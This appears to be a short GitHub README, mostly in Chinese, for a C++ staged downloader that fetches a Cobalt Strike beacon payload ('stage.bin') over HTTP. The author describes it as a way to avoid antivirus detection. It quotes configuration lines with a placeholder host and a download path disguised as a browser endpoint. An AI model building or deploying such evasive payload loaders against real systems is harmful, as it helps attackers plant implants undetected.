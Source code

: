 # HttpStageDownloader
cobaltstrike的http分阶段下载器 cpp版本
cobaltstrike stage downloader writed by cpp

参考视频：https://www.bilibili.com/video/BV1MA4y1Z7Uz/

cobalt strike的http beacon很容易被查杀，这里用wininet和winhttp写了个分阶段下载器。
代码里的<br>
   const WCHAR* szUrl = L"http://127.0.0.1/async/Newtab_promos";<br>
    const WCHAR* szDomain = L"127.0.0.1";<br>
    const WCHAR* szUrlPath = L"/async/Newtab_promos";<br>
    const char* szFileName = "stage.bin";<br>
自己根据profile文件进行修改.<br>


